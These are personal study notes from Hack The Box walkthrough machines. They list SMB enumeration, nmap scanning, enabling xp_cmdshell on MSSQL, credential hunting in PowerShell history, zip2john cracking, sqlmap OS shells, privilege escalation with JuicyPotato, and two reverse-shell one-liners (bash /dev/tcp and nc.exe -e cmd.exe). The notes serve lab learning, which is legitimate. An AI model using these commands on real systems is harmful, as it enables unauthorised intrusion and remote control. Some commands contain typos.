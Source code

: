 Intended to capture observations during the walkthroughs for processes to apply or things to  remember when coming across certain steps during information gathering.

# Archetype
- If you see SMB, see if anonymous access is granted
    - `smbclient -N -L \\\\IP_ADDR\\`
    - If any are interesting, try to connect with `smbclient -N \\\IP_ADDR\shared_drive_name`

## `nmap`
Clever way to filter out the ports to analyze in greater detail:
```
ports=$(nmap -p- --min-rate=1000  -T4 10.10.10.27 | grep ^[0-9] | cut -d '/' -f1 | tr '\n' ',' | sed s/,$//)nmap -sC-sV-p$ports10.10.10.27
```

## SQL
`SQL> SELECT IS_SRVROLEMEMBER ('sysadmin')` run once authenticated to SQL DB to reveal whether current user has sysadmin privs
- Can enaable `xp_cmdshell`, with the following script:
```
EXEC sp_configure 'Show Advanced Options', 1;
reconfigure;sp_configure;
EXEC sp_configure 'xp_cmdshell', 1;
reconfigure;
xp_cmdshell "whoami";
```

## Powershell
Powershell history file: `C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.tx`

# Vaccine
Use `zip2john` to brute force attack password protected Zip files

Use www.cractstation.net for rainbow tables for known passwords

## SQL
- If using `sqlmap` and attacking a postgreSQL DB, use `--os-shell` to attempt to get shell
- If you have OS Shell, run `bash -c 'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'` to get reverse shell (requires `nc` listener)

# Shield
- `gobuster` is an alternative to brute force open directories for a web app
- Can use `wp_admin_shell_upload` to get a meterpreter shell
- Upload the `nc.exe` executable and then execute it with `execute -f nc.exe -a "-e cmd.exe IP_ADDR LIST_PORT"`
- `JuicyPotato` to escalate privs

# Pathfinder

# Included

# Markup - on this one

# Guard

# Base